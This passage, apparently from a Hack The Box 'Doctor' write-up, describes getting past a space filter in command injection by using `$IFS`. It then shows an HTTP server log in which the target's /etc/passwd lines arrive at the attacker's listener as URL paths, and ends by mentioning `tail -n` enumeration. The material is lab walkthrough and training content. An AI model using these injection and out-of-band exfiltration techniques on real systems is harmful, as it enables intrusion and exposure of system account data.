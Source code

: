 After discovering that I could use commands by plugging the space with `$IFS`, I sent a lot of different commands trying to enumerate the machine.  \(As you can see below, I only got very limited information back from each attempt.\)

```text
┌──(zweilos㉿kali)-[~/htb/doctor]
└─$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.10.209 - - [07/Feb/2021 21:19:26] code 404, message File not found
10.10.10.209 - - [07/Feb/2021 21:19:26] "GET /blog HTTP/1.1" 404 -
10.10.10.209 - - [07/Feb/2021 21:20:21] "GET / HTTP/1.1" 200 -
10.10.10.209 - - [07/Feb/2021 21:20:38] code 404, message File not found
10.10.10.209 - - [07/Feb/2021 21:20:38] "GET /root:x:0:0:root:/root:/bin/bash HTTP/1.1" 404 -
10.10.10.209 - - [07/Feb/2021 21:21:12] code 404, message File not found
10.10.10.209 - - [07/Feb/2021 21:21:12] "GET /root:x:0:0:root:/root:/bin/bash HTTP/1.1" 404 -
10.10.10.209 - - [07/Feb/2021 21:22:49] code 404, message File not found
10.10.10.209 - - [07/Feb/2021 21:22:49] "GET /bin HTTP/1.1" 404 -
10.10.10.209 - - [07/Feb/2021 21:23:00] code 404, message File not found
10.10.10.209 - - [07/Feb/2021 21:23:00] "GET /blog HTTP/1.1" 404 -
10.10.10.209 - - [07/Feb/2021 21:24:20] code 404, message File not found
10.10.10.209 - - [07/Feb/2021 21:24:20] "GET /root:x:0:0:root:/root:/bin/bash HTTP/1.1" 404 -
10.10.10.209 - - [07/Feb/2021 21:26:43] code 404, message File not found
10.10.10.209 - - [07/Feb/2021 21:26:43] "GET /pulse:x:123:128:PulseAudio HTTP/1.1" 404 -
10.10.10.209 - - [07/Feb/2021 21:37:28] "GET / HTTP/1.1" 200 -
10.10.10.209 - - [07/Feb/2021 21:38:46] "GET / HTTP/1.1" 200 -                                          
10.10.10.209 - - [07/Feb/2021 21:41:23] "GET / HTTP/1.1" 200 -                                          
10.10.10.209 - - [07/Feb/2021 21:41:32] "GET / HTTP/1.1" 200 -                                          
10.10.10.209 - - [07/Feb/2021 21:41:53] "GET / HTTP/1.1" 200 -                                          
10.10.10.209 - - [07/Feb/2021 21:42:13] code 404, message File not found                                
10.10.10.209 - - [07/Feb/2021 21:42:13] "GET /blog HTTP/1.1" 404 -
10.10.10.209 - - [07/Feb/2021 21:43:12] code 404, message File not found
10.10.10.209 - - [07/Feb/2021 21:43:12] "GET //usr/bin:/bin HTTP/1.1" 404 -
10.10.10.209 - - [07/Feb/2021 21:45:15] "GET / HTTP/1.1" 200 -
10.10.10.209 - - [07/Feb/2021 21:45:30] code 404, message File not found
10.10.10.209 - - [07/Feb/2021 21:45:30] "GET /splunk:x:1003:1003:Splunk HTTP/1.1" 404 -
10.10.10.209 - - [07/Feb/2021 21:46:42] "GET /shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash HTTP/1.1" 404 -
```

I figured out how to enumerate `/etc/passwd` one line at a time using `tail -n`;
